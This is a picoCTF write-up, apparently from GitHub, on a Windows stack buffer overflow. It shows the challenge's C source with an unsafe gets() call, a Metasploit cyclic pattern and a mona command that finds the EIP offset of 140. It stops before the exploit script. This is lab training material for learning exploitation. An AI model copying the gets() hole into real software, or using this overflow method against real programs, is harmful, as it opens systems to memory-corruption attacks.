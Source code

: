 ### Binary Exploitation

### Source: PICOCTF

### Basic File Checks

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/wine]
└─$ file vuln.exe 
vuln.exe: PE32 executable (console) Intel 80386, for MS Windows
```

Its a windows executable

Source code is given

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void win(){
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("flag.txt not found in current directory.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

void vuln()
{
  printf("Give me a string!\n");
  char buf[128];
  gets(buf);
}

int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);
  vuln();
  return 0;
}
```

We can see the program prints our give me a string then receives out input using the get() call which is vulnerable to buffer overflow

So obviously our goal is to return to the win function

Unlike using gdb to debug i don't know if that is possible 

But in this case i'll use `Immunity Debugger`

So i'll hop on to my windows box and run the binary one my windows machine
![image](https://user-images.githubusercontent.com/113513376/217090561-3582499d-757e-4bca-b0b5-2ace6694ae01.png)

So with this i'll attach the process on immunity debugger
![image](https://user-images.githubusercontent.com/113513376/217090666-8a33b8d7-ca7b-45ee-86ae-ef7c221874eb.png)

Now i will generate a msf pattern

```
┌──(venv)─(mark㉿haxor)-[~/…/Pentest/BOF/03-begineer_bof/wine]
└─$ msf-pattern_create -l 250
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```

Now this is the string i'll give the binary as input

The program crashes 
![image](https://user-images.githubusercontent.com/113513376/217091167-08e3c036-d782-4d4f-995b-f7af604e54c9.png)

So with this i can use the mona plugin to get the offset

```
Command: !mona findmsp -distance 250
```
![image](https://user-images.githubusercontent.com/113513376/217091847-883f5faa-62cc-496e-a898-347bf7bb0dcb.png)

Here's the important part

```
Log data, item 16
 Address=0BADF00D
 Message=    EIP contains normal pattern : 0x37654136 (offset 140)
```

Cool the offset is 140

Now i'll get make the exploit script


